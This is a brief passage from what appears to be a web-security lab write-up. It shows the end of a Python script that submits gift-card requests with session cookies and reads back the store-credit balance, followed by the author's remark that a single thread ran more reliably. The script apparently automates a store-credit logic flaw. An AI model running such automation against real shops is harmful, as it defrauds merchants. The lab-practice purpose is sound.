 ```python
		}
		bal_r = s.post(url + '/gift-card', data=gift_data, cookies=cookies, proxies=proxies, verify=False)
		pattern = re.compile(r'<p><strong>Store credit: \$([\d.]+)</strong></p>')
		match = pattern.search(bal_r.text)
		print("Credit value: " + match.group(1))

	else:
		print('[-] Something went wrong!')
```

I was lazy to use threading, so I just waited. I also noticed that the threads tend to cause each other to fail when testing, so I think keeping to one is stabler.

